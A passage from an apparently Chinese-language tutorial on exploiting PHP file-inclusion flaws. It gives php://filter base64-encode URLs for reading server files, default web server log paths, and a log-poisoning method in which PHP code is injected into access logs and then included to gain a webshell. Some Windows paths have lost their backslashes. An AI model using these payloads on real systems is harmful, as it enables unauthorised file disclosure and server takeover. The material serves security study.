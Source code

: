 > 
<pre>http://localhost/file.php?file=php://filter/read=convert.base64-encode/resource=C:\oneword</pre>


（绝对路径）

> 
<pre>http://localhost/file.php?file=php://filter/read=convert.base64-encode/resource=../../oneword</pre>


（相对路径）

> 
<pre>http://localhost/file.php?file=php://filter/read=convert.base64-encode/resource=[http|https|ftp]://www.bbb.com/</pre>


《php:// 》:[PHP: php:// - Manual](http://php.net/manual/zh/wrappers.php.php)手册

**包含日志文件**

说明：比如Web服务器的访问日志文件，这是一种通用的技巧。因为几乎所有网站都会将用户的访问记录到访问日志中。因此，攻击者可以向Web日志中插入PHP代码，通过文件包含漏洞来执行包含在Web日志中的PHP代码。下面的案例中就是利用该技巧成功获取到目标网站的WebShell的。但需要注意的是，如果网站访问量大的话，日志文件可能会非常大，这时如果包含一个这么大的文件时，PHP进程可能会卡死。一般网站通常会每天生成一个新的日志文件，因此在凌晨时进行攻击相对来说容易成功。

**日志默认路径**

apache+Linux日志默认路径

/etc/httpd/logs/access_log/var/log/httpd/access_log

apache+win2003日志默认路径

> 
<pre>D:xamppapachelogsaccess.log
D:xamppapachelogserror.log</pre>


 IIS6.0+win2003默认日志文件

> 
<pre>C:WINDOWSsystem32Logfiles</pre>


IIS7.0+win2003 默认日志文件

> 
<pre>%SystemDrive%inetpublogsLogFiles</pre>


nginx 日志文件在用户安装目录的logs目录下

如安装目录为/usr/local/nginx,则日志目录就是在/usr/local/nginx/logs里

也可通过其配置文件Nginx.conf，获取到日志的存在路径（/opt/nginx/logs/access.log）

**例1 ：包含日志一句话**

背景：日志会记录客户端请求及服务器响应的信息，访问[http://www.xx.com/](http://www.xx.com/)&lt;?php phpinfo(); ?&gt;时，&lt;?php phpinfo(); ?&gt;也会被记录在日志里，也可以插入到User-Agent，但是请求的信息有可能被url编码之后记录日志，这里可以通过burp来发送请求包来防止被编码，通过相对路径找到日志文件，用webshell工具连接即可
